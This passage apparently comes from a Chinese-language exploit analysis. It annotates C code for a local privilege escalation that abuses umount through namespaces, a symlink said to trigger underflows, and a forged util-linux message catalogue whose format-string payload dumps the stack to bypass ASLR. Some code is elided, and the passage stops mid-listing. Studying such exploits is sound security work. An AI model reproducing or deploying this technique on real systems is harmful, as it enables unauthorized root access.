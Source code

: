 `prepareNamespacedProcess()` 函数如下所示：
```c
static int usernsChildFunction() {
  [...]
  int result=mount("tmpfs", "/tmp", "tmpfs", MS_MGC_VAL, NULL);	// 将 tmpfs 类型的文件系统 tmpfs 挂载到 /tmp
  [...]
}

pid_t prepareNamespacedProcess() {
  if(namespacedProcessPid==-1) {
    [...]
    namespacedProcessPid=clone(usernsChildFunction, stackData+(1<<20),
        CLONE_NEWUSER|CLONE_NEWNS|SIGCHLD, NULL);	// 调用 clone() 创建进程，新进程执行函数 usernsChildFunction()
    [...]
  char pathBuffer[PATH_MAX];
  int result=snprintf(pathBuffer, sizeof(pathBuffer), "/proc/%d/cwd",
     namespacedProcessPid);
  char *namespaceMountBaseDir=strdup(pathBuffer);	// /proc/[pid]/cwd 是一个符号连接, 指向进程当前的工作目录

// Create directories needed for umount to proceed to final state
// "not mounted".
  createDirectoryRecursive(namespaceMountBaseDir, "(unreachable)/x");	// 在 cwd 目录下递归创建 (unreachable)/x。下同
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "(unreachable)/tmp/%s/C.UTF-8/LC_MESSAGES", osReleaseExploitData[2]);
  createDirectoryRecursive(namespaceMountBaseDir, pathBuffer);
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "(unreachable)/tmp/%s/X.X/LC_MESSAGES", osReleaseExploitData[2]);
  createDirectoryRecursive(namespaceMountBaseDir, pathBuffer);
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "(unreachable)/tmp/%s/X.x/LC_MESSAGES", osReleaseExploitData[2]);
  createDirectoryRecursive(namespaceMountBaseDir, pathBuffer);

// Create symlink to trigger underflows.
  result=snprintf(pathBuffer, sizeof(pathBuffer), "%s/(unreachable)/tmp/down",
      namespaceMountBaseDir);
  result=symlink(osReleaseExploitData[1], pathBuffer);	// 创建名为 pathBuffer 的符号链接
  [...]

// Write the initial message catalogue to trigger stack dumping
// and to make the "umount" call privileged by toggling the "restricted"
// flag in the context.
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "%s/(unreachable)/tmp/%s/C.UTF-8/LC_MESSAGES/util-linux.mo",
      namespaceMountBaseDir, osReleaseExploitData[2]);	// 覆盖 "restricted" 标志将赋予 umount 访问已装载文件系统的权限

  [...]
  char *stackDumpStr=(char*)malloc(0x80+6*(STACK_LONG_DUMP_BYTES/8));
  char *stackDumpStrEnd=stackDumpStr;
  stackDumpStrEnd+=sprintf(stackDumpStrEnd, "AA%%%d$lnAAAAAA",
      ((int*)osReleaseExploitData[3])[ED_STACK_OFFSET_CTX]);
  for(int dumpCount=(STACK_LONG_DUMP_BYTES/8); dumpCount; dumpCount--) {	// 通过格式化字符串 dump 栈数据，以对抗 ASLR
    memcpy(stackDumpStrEnd, "%016lx", 6);
    stackDumpStrEnd+=6;
  }

  [...]
  result=writeMessageCatalogue(pathBuffer,
      (char*[]){
          "%s: mountpoint not found",
          "%s: not mounted",
```
